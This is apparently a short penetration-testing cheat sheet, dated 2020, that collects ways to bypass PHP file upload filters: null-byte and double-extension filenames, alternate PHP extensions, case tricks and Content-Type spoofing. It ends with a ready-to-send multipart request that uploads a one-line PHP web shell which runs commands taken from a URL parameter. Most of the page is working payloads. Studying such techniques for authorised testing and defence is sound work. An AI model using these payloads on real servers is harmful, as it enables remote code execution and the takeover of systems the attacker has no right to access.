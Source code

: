 ```yaml
---
title: WebApp PHP - File Upload Bypass
date: 2020-5-21
layout: single
classes: wide
tags:
  - PHP
  - WebApp
  - File
  - Upload
  - Bypass
--- 
```


## Overview
Techniques gathered to bypass PHP file upload filters.

### PHP Null Byte

```
photo.php%00.jpg
```
+ Only usable with older PHP versions ~<5.4

### Apache Dual Extentions

```
photo.php.png
```
+ Apache has a setting were a file can have 2 extensions
+ Apache will process the file as either type based on the extensions


### Alternate PHP Extentions

```
.phtml  .php3   .php4   .php5   .phps
```
+ There are many different file extensions for PHP.
+ Developers may blacklist `*.php` but forget `*.php3`

### Case Sensitive Bypass

+ Developers may blacklist `*.php` using case sensitive regex
+ This can be bypassed with `file.PhP`

### PHP File-Type Bypass

+ Typical of image uploads, developers will try to whitelist the allowed file types that may be uploaded.
```php
if ((($_FILES["file"]["type"] == "image/gif") || 
     ($_FILES["file"]["type"] == "image/jpeg")|| 
     ($_FILES["file"]["type"] == "image/JPG") ||
     ($_FILES["file"]["type"] == "image/png") || 
     ($_FILES["file"]["type"] == "image/pjpeg"))
```

+ This can be bypassed by changing the `Content-Type` in the POST request sent to the server

```bash
Content-Disposition: form-data; name="file"; filename="magic.php"
Content-Type: image/png

<?php echo shell_exec($_GET["magic"]); ?>
```   


## External References 
[PentesterLab.blog - Bypassing File Upload Restrictions](https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/)
